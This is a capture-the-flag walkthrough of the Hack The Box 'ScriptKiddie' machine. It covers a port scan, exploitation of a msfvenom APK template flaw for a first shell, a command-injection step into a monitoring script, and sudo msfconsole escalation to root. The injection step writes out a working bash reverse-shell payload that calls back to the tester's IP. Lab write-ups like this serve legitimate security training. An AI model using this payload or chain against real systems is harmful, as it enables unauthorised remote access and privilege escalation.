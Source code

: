 # CTF - [HTB ScriptKiddie](http://10.10.10.226:5000/)
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br/><br/>
Found a site with input fields that could be potential entry points.
<br/><br/>
![Screenshot at 2021-12-03 21-38-40](https://user-images.githubusercontent.com/59718043/144700412-347e85cf-7ea9-498c-807e-81c702acb9a0.png)
<br/><br/>
Another potential vulnerability: `Werkzeug/0.16.1 Python/3.8.5`.

<br/><br/>
Knowing that the site executes binaries from a Linux server, first I tried command injection on the input fields, but unfortunately that didn't work.<br/><br/>
![Screenshot at 2021-12-04 20-32-13](https://user-images.githubusercontent.com/59718043/144734995-99ddb895-5b05-4349-83a1-cea76b3c060d.png)

<br/><br/>
One of the executable programs on this web app is msfvenom. According to searchsploit, msfvenom is vulnerable to [CVE 2020-7384](https://www.exploit-db.com/exploits/49491).
```
└──╼ $searchsploit msfvenom                                                        │                             
------------------------------------------------- ---------------------------------│                   
 Exploit Title                                   |  Path                           │
------------------------------------------------- ---------------------------------│
Metasploit Framework 6.0.11 - msfvenom APK templ | multiple/local/49491.py         │
------------------------------------------------- ---------------------------------│
Shellcodes: No Results
```
<br/><br/>
Used this Metasploit module and ran it, which then returns an APK file that I used to upload to the site's msfvenom payload generator while my netcat is running. This gave me a shell.
<br/><br/>
```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.226] 35390
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
<br/><br/>
The user.txt flag can be found under the usual user home directory (/home/kid/).
 
There is another user `pwn`, the plan was to find a way to this account. I used a [secjuice]() writeup for this part as I hit a roadblock. 
 ```
 $ nc -nvlp 4445
 ```
Looking at the `scanlosers.sh` file in /home/pwn, the script is vulnerable to command injection. This payload contains a reverse shell that we can push to the log file `hackers` in kid's home directory under `/home/kid/logs`. 
 ```
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4445 0>&1' # ." > hackers
 ```
 ```
 $ nc -nvlp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.10.226 42332
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
 ```
Running `sudo -l`, it presented an obvious path to privilege escalation using Metasploit.
```
pwn@scriptkiddie:~/recon$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
Ran `sudo /opt/metasploit-framework-6.0.9/msfconsole` and went into the root directory for the root flag.
```
msf6 > cat /root/root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /root/root.txt

<root flag here>
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
stty: 'standard input': Inappropriate ioctl for device
msf6 > 
```
